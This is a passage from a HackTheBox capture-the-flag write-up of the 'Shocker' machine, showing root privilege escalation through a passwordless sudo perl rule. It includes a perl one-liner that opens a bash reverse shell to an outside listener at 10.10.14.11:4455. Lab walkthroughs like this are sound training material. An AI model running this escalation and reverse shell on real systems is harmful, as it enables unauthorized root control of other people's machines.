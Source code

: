 ## Privilege Escalation to Root

The root priv esc is very easy as we can run /usr/bin/perl using sudo with no password, so we can use the following command from this [gtfobins page](https://gtfobins.github.io/gtfobins/perl/) to excute bash commands using perl as root and ultimately get us a reverse shell as root.

{% highlight bash %}
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\

User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl

10.10.10.56>
{% endhighlight %}

Now for the reverse shell we will use the bash one listed here on my [Notes page](https://71xn.github.io/notes/#reverse-shells) combined with the perl command from gtfobins.

Our command should look something like this, you should also have a netcat listner setup on the port you use in your reverse shell command.
{% highlight bash %}
/usr/bin/perl -e 'exec "/bin/bash -i >& /dev/tcp/10.10.14.11/4455 0>&1";'
{% endhighlight %}

### Root Flag

![root](/images/hackthebox-writeups/shocker/root.gif)

Pwned!

If you enjoyed my write up or found it useful consider +repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
